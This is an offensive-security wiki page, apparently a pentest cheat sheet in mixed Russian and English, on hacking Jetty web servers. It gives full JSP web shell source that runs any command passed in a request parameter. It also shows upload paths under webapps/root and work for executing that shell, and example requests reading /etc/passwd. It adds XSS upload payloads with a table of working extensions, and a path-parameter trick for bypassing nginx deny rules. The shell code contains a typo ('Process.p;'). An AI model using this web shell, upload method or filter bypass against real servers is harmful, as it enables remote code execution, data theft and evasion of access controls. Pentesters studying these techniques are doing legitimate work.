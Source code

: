 # Jetty

## Detect

Jetty не реагирует на `;"`:

```
/;" or /existingUrl;"/

Nginx:  GET /;" -> 404 Not Found
Apache: GET /;" -> 404 Not Found
Jetty:  GET /;" -> 200 OK
```

## Jetty Overview

Variables:

$JETTY\_HOME — jetty distribution directory

$JETTY\_BASE — which contains configuration files, web applications, etc. `$JETTY_BASE` is ./ in relation to a process run by Jetty server

All web applications are stored `$JETTY_BASE/webapps/`

When applications are deployed, they are each assigned their own context. Every context has the contextPath property that defines the URL path served by the associated application. If an application has the contextPath “/test” , it will process all HTTP requests to /test/\*. Using contextPath and virtualHost, we can map different paths and virtual hosts to different applications.

Jetty can have a root web application (catch-all context) located in `$JETTY_BASE/webapps/root/` that processes all requests to /. In addition to /, this application will process all requests for a resource that is not associated with any registered contexts.

### Discovering contexts

У Jetty есть одна интересная особенность. Если нет приложения, отвечающего за root-контекст, то при обращении на несуществующий виртуальный хост будут выданы пути до всех контекстов.

```
GET / HTTP/1.1
Host: randomHost-sjdnvjks
```

### RCE via File Upload

#### JSP Servlets

By default, JSP files are processed in Jetty by org.eclipse.jetty.jsp.JettyJspServlet. This is configured in `$JETTY_HOME/etc/webdefault.xml`. Another default setting makes Jetty compile and execute all files matching the following masks:

* \*.jsp
* \*.jspf
* \*.jspx
* \*.xsp
* \*.JSP
* \*.JSPF
* \*.JSPX
* \*.XSP

To achieve RCE, we need to upload a file with one of these extensions to the server. &#x20;

Note: to enable JSP file processing in Jetty, the jsp module must be enabled.

**Case 1**

As I mentioned earlier, Jetty may have a root application that processes requests to the server root. Therefore, the easiest way to achieve RCE is to upload a JSP web shell to `$JETTY_BASE/webapps/root/` and then access it via HTTP.

```
GET /exec.jsp?cmd=cat+/etc/passwd HTTP/1.1
Host: jetty
```

```java
// $JETTY_BASE/webapps/root/exec.jsp
<%@ page import="java.util.*,java.io.*"%>
<%
if (request.getParameter("cmd") != null) {
   Process.p;
   p = Runtime.getRuntime().exec(request.getParameter("cmd"));
   InputStream in = p.getInputStream();
   DataInputStream dis = new DataInputStream(in);
   String disr = dis.readLine();
   while ( disr != null ) {
      out.println(disr);
      disr = dis.readLine();
   }
}
%>
```

**Case 2**

A JSP shell can also be uploaded to `$JETTY_BASE/work/` which is normally used as a parent directory for all temporary folders of web applications. When the web server starts, directories for each application will be created in it. The name of the directory will be in the format:

`"jetty-"+host+"-"+port+"-"+resourceBase+"-_"+context+"-"+virtualhost+"-"`

If we somehow manage to find out what temporary directory has been created, we can try to upload a JSP shell via: `$JETTY_BASE/work/"jetty-"+host+"-"+port+"-"+resourceBase+"-_"+context+"-"+virtualhost+"-"/webapps`

![](<../../../.gitbook/assets/изображение (4).png>)

Next we open the URL with the required context in our browser and we have RCE.

```
GET /testApp/exec.jsp?cmd=cat+/etc/passwd HTTP/1.1
Host: 192.168.99.129
```

File in:

```
work/jetty-0_0_0_0-8080-test_war-_testApp-any-/webapp/exec.jsp
```

### Web application upload

If uploading JSP files is impossible or the JSP handler is not enabled, we can use the automatic deploy (hot deploy) feature that is enabled in Jetty by default. When hot deploy is enabled, `$JETTY_BASE/webapps/` is constantly scanned for new web applications that are automatically deployed without us having to restart the Jetty server.

[Tomcat has the same feature but it is disabled by default](https://tomcat.apache.org/tomcat-8.0-doc/deployer-howto.html#Deploying\_on\_a\_running\_Tomcat\_server)

А web application in Jetty can be any of the following:

* A regular directory
* A WAR file
* An XML file (Jetty context XML file)

This means we have two file types that can give us RCE if we upload them to the server.

### XSS via file upload

We can achieve XSS on a Jetty server with standard configuration by uploading not only well-known .html or .svg files, but also other files with less popular extensions. To test this, I used two types of payload:

```markup
<!-- XML-based: -->
<a:script xmlns:a="http://www.w3.org/1999/xhtml">alert('XSS')</script>

<!-- HTML-based: -->
<script>alert('XSS')</script>
```

The results are in the table below. ([List](https://github.com/eclipse/jetty.project/blob/jetty-10.0.x/jetty-http/src/main/resources/org/eclipse/jetty/http/mime.properties) of extensions)

| Extension         | Payload | Browser                                                                                                                                                                                |
| ----------------- | ------- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| .htm              | HTML    | ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/8f48559e-icons8-chrome-24.png) ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/e8018665-icons8-firefox-24.png) |
| .mathml           | XML     | ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/e8018665-icons8-firefox-24.png)                                                                                            |
| .rdf              | XML     | ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/e8018665-icons8-firefox-24.png)                                                                                            |
| .svgz             | XML     | ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/8f48559e-icons8-chrome-24.png) ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/e8018665-icons8-firefox-24.png) |
| .xht              | XML     | ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/8f48559e-icons8-chrome-24.png) ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/e8018665-icons8-firefox-24.png) |
| .xhtml            | XML     | ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/8f48559e-icons8-chrome-24.png) ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/e8018665-icons8-firefox-24.png) |
| .xml              | XML     | ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/8f48559e-icons8-chrome-24.png) ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/e8018665-icons8-firefox-24.png) |
| .xsd              | XML     | ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/8f48559e-icons8-chrome-24.png) ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/e8018665-icons8-firefox-24.png) |
| .xsl              | XML     | ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/8f48559e-icons8-chrome-24.png) ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/e8018665-icons8-firefox-24.png) |
| .\[randomSymbols] | HTML    | ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/8f48559e-icons8-chrome-24.png) ![](https://swarm.ptsecurity.com/wp-content/uploads/2022/09/e8018665-icons8-firefox-24.png) |

## Bypass WAF or filters

With a thorough understanding of Jetty’s inner workings, we can find ways to exploit vulnerabilities in applications running on it even if those vulnerabilities are compensated by a WAF.

### Case 1

Knowing how the Jetty server parses URL addresses, we can bypass filters on a proxy server. Imagine that a Jetty server is deployed behind an NGINX proxy with a rule that blocks requests to /adminURL/\*.

```nginx
location ~ /adminURL/ {
   deny all;
}
location / {
   proxy_pass http://localhost:8080;
   proxy_set_header Host $host;
   proxy_set_header X-Real-IP $remote_addr;
}
```

If this rule is configured only on the proxy, we can send an HTTP request to `/adminURL;random/` and obtain access to the protected resource on the server:

```
/adminURL/ -> 403
/adminURL;aaa/ -> 200
```

Больше примеров в статье

## Papers & Notes

PT Swarm Research: [https://swarm.ptsecurity.com/jetty-features-for-hacking-web-apps/](https://swarm.ptsecurity.com/jetty-features-for-hacking-web-apps/)
